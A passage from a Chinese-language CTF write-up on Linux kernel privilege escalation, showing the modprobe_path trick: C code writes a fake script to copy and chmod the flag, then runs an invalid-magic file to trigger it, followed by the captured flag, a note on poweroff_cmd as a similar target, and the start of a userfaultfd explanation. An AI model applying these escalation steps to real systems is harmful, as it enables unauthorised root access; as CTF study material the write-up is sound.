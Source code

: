   

  获取root权限代码，利用伪造的bash将flag复制到home目录，并给定权限。

  ```c
  	system("echo -ne '#!/bin/sh\n/bin/cp /flag /home/pwn/flag\n/bin/chmod 777 /home/pwn/flag' > /home/pwn/x");
  	system("chmod +x /home/pwn/x");
  
  	system("echo -ne '\\xff\\xff\\xff\\xff' > /home/pwn/duck");
  	system("chmod +x  /home/pwn/duck");
  
  	system("/home/pwn/duck");
  ```

  成功提权：

  ```shell
  ~ $ ls
  duck       exp        flag       hackme.ko  x
  ~ $ cat flag 
  *CTF{userf4ult_fd_m4kes_d0uble_f3tch_perfect}
  
  ```
  
  另外，同`modprobe_path`类似的最终调用`call_usermodehelper`的全局变量还有：
  
  * poweroff_cmd
  
    ```c
    // /kernel/reboot.c
    char poweroff_cmd[POWEROFF_CMD_PATH_LEN] = "/sbin/poweroff";
    // /kernel/reboot.c
    static int run_cmd(const char *cmd)
        argv = argv_split(GFP_KERNEL, cmd, NULL);
        ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    // /kernel/reboot.c
    static int __orderly_poweroff(bool force)    
        ret = run_cmd(poweroff_cmd);
    ```
  
    触发方式：通过调用`__orderly_poweroff`函数可以触发。
  
* userfaultfd机制提权

  * userfaultfd机制简介

    内核内存一般说包含两个部分：RAM，保存被使用的内存页；交换区，保存暂时闲置的内存页。然而除此之外，有部分内存不属于这两者，例如`mmap`创建的内存映射页。

    mmap映射的地址在`read/write`访问之前并没有真正的创建（映射到实际的物理页）

    ```c
    A： mmap(0x1fff000, PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_PRIVATE, fd, 0);
    B: char* buffer = (char*)0x1fff000;
    C: printf("read: %c\n", buffer[0]);
    ```

    在A执行完后，内核并没有将`fd`内容拷贝到`0x1fff000`。
